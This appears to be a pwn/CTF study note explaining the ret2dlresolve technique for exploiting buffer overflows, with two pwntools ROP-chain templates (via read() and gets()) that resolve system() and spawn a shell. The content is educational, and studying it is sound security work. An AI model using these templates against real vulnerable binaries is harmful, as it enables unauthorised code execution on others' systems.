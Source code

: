 ```yaml
---
description: >-
  A way to exploit buffer overflows using ROP when not many gadgets are
  available, and Full RELRO is disabled
---
```


# ret2dlresolve

Ret2dlresolve is a technique that can be used to trick the binary into resolving a specific function, such as `system()`, into the PLT (Procedure Linkage Table). By doing this, you can use the PLT function as if it was an original component of the binary. This bypasses ASLR and does not require any leaks of the libc address.

The attack is only possible when you can overwrite GOT entries, making it impossible on Full RELRO. On both No RELRO and Partial RELRO this attack is possible however:

![](<../../.gitbook/assets/image (2) (1) (1).png>)

For a more detailed explanation see:

{% embed url="https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve" %}
Detailed analysis and information about ret2dlresolve from ir0nstone's notes
{% endembed %}

## PwnTools

PwnTools contains a [`ret2dlresolve`](https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html) function that can generate payloads for this attack automatically.&#x20;

### `read()`

```renpy
rop = ROP(elf)
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['sh'])
rop.raw(rop.ret)  # Align stack (64-bit)
rop.read(0, dlresolve.data_addr)  # Call read function to write data
rop.ret2dlresolve(dlresolve)  # Write data

p.sendline(flat({
    OFFSET: rop.chain(),
}))
p.sendline(dlresolve.payload)  # Run /bin/sh

p.interactive()
```

### `gets()`

```renpy
rop = ROP(elf)
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['sh'])
rop.raw(rop.ret)  # Align stack (64-bit)
rop.gets(dlresolve.data_addr)  # Call read function to write data
rop.ret2dlresolve(dlresolve)  # Write data

p.sendline(flat({
    OFFSET: rop.chain(),
}))
p.sendline(dlresolve.payload)  # Run /bin/sh

p.interactive()
```


